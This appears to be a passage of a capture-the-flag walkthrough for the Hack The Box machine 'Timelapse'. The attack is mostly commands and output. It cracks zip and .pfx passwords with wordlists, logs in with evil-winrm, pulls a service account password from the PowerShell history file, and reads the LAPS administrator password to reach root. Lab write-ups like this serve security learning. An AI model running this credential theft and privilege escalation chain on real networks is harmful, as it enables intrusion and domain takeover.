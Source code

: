 ```
SMB         10.129.227.105  445
smbclient //{IP}/Share
```

In Dev folder I have found an interesting zip file.

**fcrackzip or zip2john** for brute forcing the zip files.
```
fcrackzip --use-unzip --dictionary --init-password /usr/share/wordlists/rockyou.txt winrm_backup.zip

PASSWORD FOUND!!!!: pw == supremelegacy
```
Zip password is `supremelegacy`.

**crackpkcs12 or pfx2john** for brute forcing .pfx or .p12 files.
```shell
crackpkcs12 -d /usr/share/wordlists/rockyou.txt legacyy_dev_auth.pfx

Dictionary attack - Starting 12 threads

*********************************************************
Dictionary attack - Thread 3 - Password found: thuglegacy
*********************************************************
```

To extract the crt and key files in .pem format from the legacyy_dev_auth.pfx file, you can use the following openssl command:

```shell
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt.pem
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -nodes -out legacyy_dev_auth.key.pem
```

This will create two separate files: legacyy_dev_auth.crt.pem containing the certificate and legacyy_dev_auth.key.pem containing the private key.

WinRM http runs on 5985 and SSL on 5986
Because http is not open, let's connect with https using -S flag:
```
evil-winrm -i 10.129.227.105 -k /home/volt/htb/timelapse/legacyy_dev_auth.key.pem  -c /home/volt/htb/timelapse/legacyy_dev_auth.crt.pem -S
```

# Privilege Escalation

History file of powershell
https://0xdf.gitlab.io/2018/11/08/powershell-history-file.html
```
$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

type "C:/Users/legacyy/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt"
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

After login in with winrm with new credentials,

```
evil-winrm -i 10.129.227.105 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S

net user svc_deploy
```

The output of the previous command shows that we are part of the LAPS_Readers group. The
"Local Administrator Password Solution" (LAPS) is used to manage local account passwords of
Active Directory computers.

```
Get-ADComputer -Filter 'ObjectClass -eq "computer"' -Property *

# Result
ms-Mcs-AdmPwd                        : pt80xJ4hC[HI(;+#08MU&h{F
```

Logging in as Administrator and searching for root.txt flag
```
evil-winrm -S -i 10.129.64.108 -u 'administrator' -p 'pt80xJ4hC[HI(;+#08MU&h{F'

Get-ChildItem -Path C:\ -Filter root.txt -Recurse -ErrorAction SilentlyContinue -Force
```

LAPS password with proper credentials can be achieved also by using this python script:
https://github.com/n00py/LAPSDumper/tree/main

